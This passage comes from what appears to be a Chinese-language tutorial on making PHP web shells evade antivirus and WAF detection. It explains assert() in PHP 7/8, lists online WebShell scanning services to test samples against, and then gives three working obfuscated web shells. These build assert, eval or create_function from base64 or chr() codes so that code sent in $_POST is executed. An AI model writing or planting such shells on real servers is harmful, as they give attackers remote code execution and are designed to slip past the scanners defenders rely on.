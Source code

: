 #### 0.3.2  `assert()` 高危函数

在PHP7 中，`assert ()` 也不再是函数了，变成了一个语言结构（类似于 eval），不能再作为函数名动态执行代码，所以利用起来稍微复杂一点，这个感兴趣可以自行了解即可，相关的说明如下：

> 在 PHP 8.0.0 之前，如果 assertion 是 string，将解释为 PHP 代码，并通过 eval() 执行。 这个字符串将作为第三个参数传递给回调函数。这种行为在 PHP 7.2.0 中弃用，并在 PHP 8.0.0 中移除。

所以在WebShell免杀这块，我还是更喜欢用 `system()` 高危函数，以下很多案例都是使用 `system()` 来最终执行的

### 0.4 WebShell免杀测试

- 渊龙Sec团队导航（上面啥都有）： [https://dh.aabyss.cn/](https://dh.aabyss.cn/)
- 长亭百川云WebShell检测：[https://rivers.chaitin.cn/webShell](https://rivers.chaitin.cn/webShell)
- ~~长亭牧云查杀： [https://stack.chaitin.com/security-challenge/webshell/index](https://stack.chaitin.com/security-challenge/webshell/index)~~
- 阿里云恶意文件检测平台：[https://ti.aliyun.com/#/webshell](https://ti.aliyun.com/#/webshell)
- 默安·昆吾WebShell检测平台：[https://ti.moresec.cn/](https://ti.moresec.cn/)
- ~~阿里伏魔引擎： [https://xz.aliyun.com/zues](https://xz.aliyun.com/zues)~~
- VirusTotal： [https://www.virustotal.com/gui/home/upload](https://www.virustotal.com/gui/home/upload)
- 微步在线云沙箱： [https://s.threatbook.com/](https://s.threatbook.com/)
- 河马WebShell查杀： [https://n.shellpub.com/](https://n.shellpub.com/)
- ~~百度WEBDIR+： [https://scanner.baidu.com/](https://scanner.baidu.com/)~~
- D盾： [http://www.d99net.net/](http://www.d99net.net/)
- 网站安全狗： [http://free.safedog.cn/website_safedog.html](http://free.safedog.cn/website_safedog.html)

注明：已经划线的是目前网站关闭或者暂时不征集WebShell样本，后续本项目会同步更新

## 1# 编码绕过

这算是早期的免杀手法，可以通过编码来绕过WAF的检测，如下：

### 1.1 Base64编码

```php
<?php
$f = base64_decode("YX____Nz__ZX__J0");  //解密后为assert高危函数
$f($_POST[aabyss]);                      //assert($_POST[aabyss]);
?>
```

### 1.2 ASCII编码

```php
<?php
//ASCII编码解密后为assert高危函数
$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
$f($_POST['aabyss']);                //assert($_POST['aabyss']);
?>
```

我们再来看一个ASCII的拓展应用：

```php
<?php
$_uU=chr(99).chr(104).chr(114);   //$_uU=chr
$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);   //$_cC=eval($_POST[1]);
$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);   //$_fF=create_function
$_=$_fF("",$_cC);   //$_=create_function("",eval($_POST[1]);)
@$_();
?>
```
